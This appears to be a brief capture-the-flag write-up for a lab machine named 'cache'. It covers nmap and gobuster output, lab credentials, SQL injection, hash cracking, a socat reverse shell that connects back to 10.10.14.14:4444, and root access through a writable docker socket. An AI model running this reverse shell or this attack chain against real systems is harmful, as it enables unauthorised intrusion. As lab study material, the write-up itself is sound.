









# cache


### nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


### httpenum


##### gobuster

```
===============================================================
2020/09/24 10:47:08 Starting gobuster
===============================================================
/javascript (Status: 301)
/jquery (Status: 301)
/server-status (Status: 403)
===============================================================
2020/09/24 10:48:55 Finished
===============================================================
```


```
credentials
ash			H@v3_fun
```




##### vhost

1.  possibility of vhost




2. using cewl and wfuzz we got another domain with same ip




3. we find 2 vulnerabilities one is sqlinjection and second is authenticated rce
4. from sqlinjection we dump the database and see some encrypted credentials




##### hashcat

1. using hashcat to crack it



2. got a shell



3. python2 and python3 is not installed so i used socat to get a interactive shell

```
socat file:`tty`,raw,echo=0 tcp-listen:4444											attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.14:4444			victim
```


4. port 11211 is memcached server




5. we can escalate to luffy user



```
credentials
luffy			0n3_p1ec3
```


###  privesc

1. once we get shell as luffy
2. we enumerate with linpeas and find writable docker socket

[link to article on how to privesc](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket)

3. now we are root



